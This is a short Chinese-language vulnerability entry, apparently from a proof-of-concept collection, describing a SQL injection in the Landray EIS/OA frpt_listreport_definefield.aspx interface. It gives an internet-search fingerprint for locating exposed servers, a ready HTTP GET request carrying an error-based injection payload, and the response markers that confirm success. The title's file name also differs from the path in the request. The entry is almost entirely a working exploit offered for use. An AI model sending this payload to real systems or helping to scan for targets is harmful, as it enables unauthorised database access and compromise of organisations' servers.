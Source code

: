 ﻿# 蓝凌OA frpt_listreport_definefield.aspx接口存在SQL注入漏洞

> 更新时间：2024-03-08

> 漏洞编号：

> 漏洞说明：蓝凌EIS智慧协同平台是一款专为企业提供高效协同办公和团队合作的产品。该平台集成了各种协同工具和功能，旨在提升企业内部沟通、协作和信息共享的效率。

蓝凌EIS智慧协同平台 frpt_listreport_definefield.aspx接口处存在SQL注入漏洞，未经授权的攻击者可能会利用此漏洞窃取服务器的敏感信息，最终导致服务器失陷

> 漏洞特征：icon_hash="953405444"||app="Landray-OA系统"

> 验证脚本：HTTP

```
GET /SM/rpt_listreport_definefield.aspx?ID=2%20and%201=@@version--+ HTTP/1.1


```

> 响应代码特征：500

> 响应内容特征：nvarchar

> 上传文件定位：

> 验证文件来源：蓝凌OA frpt_listreport_definefield.aspx接口存在SQL注入漏洞.poc

